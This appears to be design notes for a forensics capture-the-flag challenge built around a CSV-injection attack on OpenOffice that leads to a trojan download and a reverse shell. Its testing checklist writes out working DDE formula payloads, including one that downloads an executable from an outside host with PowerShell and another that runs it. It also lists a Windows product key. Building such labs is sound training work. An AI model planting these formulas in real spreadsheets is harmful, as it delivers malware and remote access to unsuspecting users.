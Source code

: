 Description:
A finance department employee opened a spreadsheet using OpenOffice to view financial data. Unknown to the employee, this spreadsheet contained a malicious payload that exploited the machine with CSV injection vulnerability. The exploit led to the download and execution of malware, establishing a reverse shell connection to an external server.

The company's IT security team detected this event and isolated the machine. They've provided you with a memory dump for analysis.

Key Points:
- Initial vector: OpenOffice spreadsheet
- Exploit method: CSV injection
- Payload: Malicious executable
- End result: Reverse shell connection

Challenge Testing Stage:
- [x] CSV injection with DDE (cmd)
	- `=DDE(“cmd”;”/C calc”;”!A0″)
- [x] CSV injection with DDE (powershell)
	- `=DDE("cmd";"/C powershell";"!A0")
	- `=DDE("powershell";"/C`
- [x] CSV injection with DDE (ping localhost)
	- `=DDE("cmd";"/C ping localhost";"!A0")`
	- `=DDE("powershell";"Test-Connection -ComputerName localhost";"!A0")`
- [x] CSV injection with DDE (download trojan .exe)
	- `=DDE("powershell";"Invoke-WebRequest -Uri 'http://192.168.1.157/Desktop/payload.exe' -OutFile 'C:\Users\FinanceDept\Desktop\payload.exe'";"!A0")`
- [x] CSV injection with DDE (execute trojan .exe)
	- `=DDE("cmd";"/C/Users/FinanceDept/Desktop/payload.exe";"!A0")`
- [x] Trojan run ps1 script execute flag storing at /temp
- [x] If possible try to obfuscate ps1 script
- [ ] CSV injection with DDE (initiate reverse-shell)
	- `=DDE("cmd";"/C/Users/FinanceDept/Desktop/payload.exe";"!A0")`
- [x] Reverse shell delete flag file (https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88)

Challenge Creation Stage:
- [x] Windows 8.1 (Product Key 84NRV-6CJR6-DBDXH-FYTBF-4X49V) https://youtube.com/watch?v=Sgfa25ltul4
- [x] OpenOffice 4.0.1 (CVE-2014-3524) (https://nvd.nist.gov/vuln/detail/CVE-2014-3524)
- [x] USB File Transfer (CSV injected spreadsheet - Financial Documentation)
- [x] CSV injection Part #1: Powershell script create flag at \\temp 
- [x] CSV injection Part #2: Powershell script initiate reverse shell to (malware payload)
- [x] Attack machine: Delete flag at \\temp or modify existing file
- [x] Dump memory 


![workflow](./workflow.jpeg)
